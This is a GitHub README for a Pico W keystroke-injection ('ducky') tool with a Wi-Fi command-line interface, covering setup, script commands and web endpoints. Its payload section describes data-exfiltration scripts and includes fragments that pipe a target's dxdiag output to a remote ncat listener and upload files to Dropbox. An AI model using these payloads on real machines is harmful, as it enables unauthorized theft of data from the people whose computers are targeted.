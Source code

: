 
# Pico ducky with CLI over WiFi

Inspired by [dbisu's pico-ducky project](https://github.com/dbisu/pico-ducky). I decided pick up a [Raspberry Pi Pico W](https://www.raspberrypi.com/documentation/microcontrollers/raspberry-pi-pico.html) myself to experiment and play around with some of the ducky possiblities. I also added a CLI for the already existing web interface made by [dbisu](https://github.com/dbisu/pico-ducky).

### Use this tool and payloads to automate stuff and only for LEGAL purposes! Never target anyone if they DIDN'T give you permission as it is !!!ILLEGAL!!!

[![Video for setup](https://i9.ytimg.com/vi_webp/lyKdfkOQVTs/mqdefault.webp?v=6655ca1f&sqp=CMyj17IG&rs=AOn4CLCRTi9Oo5-ROu2tJcJXTyIGKNp3BA)](https://www.youtube.com/watch?v=lyKdfkOQVTs)

## Tools needed

Needed for this project:

- Raspberry Pi Pico W
- Micro USB to USB adapter
- Device to control pico through Wi-Fi (Laptop or phone with CLI)
(Optional) - stuff for payloads in this repository.
- Server to listen Ncat requests
- Dropbox access token

## Configuring Pico W

1.  [Download](https://github.com/fortijs40/PICO-w-ducky-CLI/releases/tag/Release_v1.0) everything and un-zip ```Pico.W.release.zip```
2. Plug in Raspberry Pico W to your computer and drag ```adafruit-circuitpython-raspberry_pi_pico_w-en_US-8.0.0.uf2``` into ```RPI-RP2``` and wait till it reboots
3. Copy over these files: ```code.py```  ```boot.py```  ```duckyinpython.py```  ```secrets.py```  ```webapp.py```  ```wsgiserver.py``` and  ```lib``` folder from ``` Pico W Release```  folder
4. Create new payloads or use existing ones
5. !!! ```secrets.py``` Contain wifi login and password for Pico W access point. You can change this or leave as is, but remember the login details.
6. (CAREFUL - if you have created and named script as ```payload1.dd```  it will run automatically after plugging in) Unplug and plug in again the Pico W 
7. You can now connect to ```TestAP``` WiFi access point and use CLI script [```CLI_4_web_ducky.py```](https://github.com/fortijs40/PICO-w-ducky-CLI/releases/download/Release_v1.0/CLI_4_web_ducky.py) for controlling the ducky remotely.
8. Don't do anything illegal and have fun automating stuff.
## Modifying ducky after setting it up

After setting everything up you might want to access the ducky again as mass storage device.

To do so, you need to:
- Connect the ```GP0``` and ```GND``` pin to not launch ```payload1.dd``` immediately after plugging it in (if you don't have ```payload1.dd``` on your ducky, then you can ignore this)
 
![Screenshot](https://github.com/fortijs40/PICO-w-ducky-CLI/assets/59094867/0dd89f32-3f50-4a92-9d01-3cd22131d31c)
- Connect the ```GP15``` and ```GND``` pin to have the ducky open up as mass storage device.
![Screenshot](https://github.com/fortijs40/PICO-w-ducky-CLI/assets/59094867/b62cd988-538b-4224-9a75-38c92c847a74)
## Main ducky script commands

```GUI r``` is the same as pressing ```win+r```. and can be used to launch ```cmd/powershell and other programs```

```STRING``` is used to type characters an example from my payload to force language to US in powershell
```
STRING Set-WinUserLanguageList -Force en-US

```
```REM``` is used to comment stuff out example from my payload. Everything in the same line after REM is simply ignored

```
REM You can change which ever path you want to the the pictures/files from.
REM Change line 32 to your OWN Dropbox access token
```

```DELAY``` is used to delay ducky from typing more commands and allow previous command to execute before the next one is ran. For example, if automating stuff on slower PC, ```DELAY``` will have to be increased or else the payload might mess up.
In example below ducky will wait 5 seconds after ```ENTER``` before executing next commands.
```
STRING Invoke-RestMethod -Uri https://content.dropboxapi.com/2/files/upload -Method Post -InFile $SourceFilePath -Headers $headers
ENTER
DELAY 5000
```
```ENTER``` and ```DELETE``` are quite self explanatory. They can be used by themselves to either delete stuff or enter stuff.

Keys like ```CTRL```, ```ALT```, ```DELETE```,```ESC```,```TAB``` can be chained to gether to execute some of their combos.

More unique commands and keystrokes can be found in duckyinpython.py
## My payloads

I wanted to focus on exfiltration payloads and wanted to construct 2 scenarios with different exfiltration methods.

### 1. [Exfiltration using dropbox API](https://github.com/fortijs40/PICO-w-ducky-CLI/blob/master/image_grab_n_exfiltrate.dd)

I got inspired from one of [Hack5 payloads](https://github.com/hak5/bashbunny-payloads/tree/master/payloads/library/exfiltration/dropbox-exfiltrator) to use dropbox API to exfiltrate some data. So I combined a script of gathering some pictures and the dropbox API script to exfiltrate images to my dropbox.

* One bad thing about this method of exfiltration is that [dropbox no longer supports long-lasting access tokens](https://developers.dropbox.com/oauth-guide#:~:text=Helper%20methods%20accept%20the%20refresh,for%20compatibility%20until%20mid%202021.) and current access tokens expire quite quickly which means the payload also needs to be changed often.

### 2. [Exfiltration using Ncat](https://github.com/fortijs40/PICO-w-ducky-CLI/blob/master/dxdiag_ncat.dd)
For this exfiltration I wanted to demonstrate that if target system has a tool like Ncat, it can also be used to exfiltrate some information. So this payload is meant to exfiltrate dxdiag file from a Windows system to a remote PC by using ncat which is listening all the time. The script execute time is quite long because dxdiag takes some time. After that I used --ssl to encrypt the traffic.
```
ENTER
REM 12 second delay time to complete the dxdiag, since it takes a bit of time
DELAY 12000
REM takes dxdiag output and sends it over ncat to specific IP and port
STRING Get-Content "$env:TEMP\infins.txt" | ncat --ssl IP PORT
DELAY 100
ENTER
DELAY 5000

```

* This method can only work if target system has ncat installed.
## Web Interface

Web interface from [dbisu's pico-ducky project](https://github.com/dbisu/pico-ducky) was quite simple. 
It contained 6 access points:
- ```192.168.1.4:80/```
- ```192.168.1.4:80/ducky``` Main screen which displays available payloads
- ```192.168.1.4:80/new```  Used to create new payloads
- ```192.168.1.4:80/edit/<file_name>``` Used to edit existing payloads
- ```192.168.1.4:80/write/<file_name>``` Used as POST from edit to overwrite the previous payload
- ```192.168.1.4:80/run/<file_name>``` Execute the payload by its file_name

### Web Interface issues I noticed

* If file is edited or written by using web end points it will replace all ```+``` with ```space' '```. It is something that is needed to be kept in mind.
* Editing big payloads multiple times can sometimes crash the webserver and you will have to replug the ducky
* Editing non existant file will instanlty crash the Pico W webserver

## Command Line Interface
I made a CLI [```cmd_4_web_ducky.py```](https://github.com/fortijs40/PICO-w-ducky-CLI/blob/master/cmd_4_web_ducky.py) based on provided web endpoints. CLI can be used instead of the web interface since it might be easier to use on some systems rather than the web.

CLI has few options:

- Ability to list names of scripts that are loaded on ducky
```
python ./cmd_4_web_ducky.py -l
or
python ./cmd_4_web_ducky.py --list
```
- Ability to run the loaded in scripts
```
python ./cmd_4_web_ducky.py -r <script_name>
or
python ./cmd_4_web_ducky.py --run <script_name>
```
- Ability to create new scripts based on existing file in the system. 
```
python ./cmd_4_web_ducky.py -c <script_path>
or
python ./cmd_4_web_ducky.py --create <script_path>
```
- Ability to edit files on ducky. Existing file on ducky will get overwritten by the local file and there is a small chance that Pico W webserver might crash if payload is too big.
```
python ./cmd_4_web_ducky.py -e <script_name> <script_path>
or
python ./cmd_4_web_ducky.py --edit <script_name> <script_path>
```
- Ability to show the content of existing scripts on ducky
```
python ./cmd_4_web_ducky.py -s <script_name>
or
python ./cmd_4_web_ducky.py --show <script_name>
```
![cli](https://github.com/fortijs40/PICO-w-ducky-CLI/assets/59094867/f947e091-dbc4-4347-a6f2-7cc033307920)
## Revert ducky back to Pico W

To revert pico ducky back to regular Pico W:

* Unplug the ducky
* Hold ```BOOTSEL``` button on Pico W and plug it in while holding down the button. It will open mass storage to reset the Pico W
* Download [flash.nuke.uf2](https://datasheets.raspberrypi.com/soft/flash_nuke.uf2)
* Drag ```flash.nuke.uf2``` it into ```RPI-RP2```
* After reset Pico W should be flashed and clean
